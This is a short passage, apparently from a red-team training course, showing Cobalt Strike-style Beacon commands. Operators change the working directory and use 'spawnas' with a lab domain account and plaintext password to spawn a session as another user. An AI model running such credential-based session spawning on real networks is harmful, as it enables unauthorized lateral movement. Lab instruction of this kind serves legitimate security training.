 ```batch
beacon> pwd
[*] Current directory is C:\Users\pchilds\Documents
```

The 'fix' for this is simply to change Beacon's working directory to a location rsteel is able to read.

```batch
beacon> cd C:\
beacon> spawnas CONTOSO\rsteel Passw0rd! tcp-local
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/81ff27d13c2bcb86edcb83e11818cf41.png" alt="" width="100%"><figcaption></figcaption></figure>
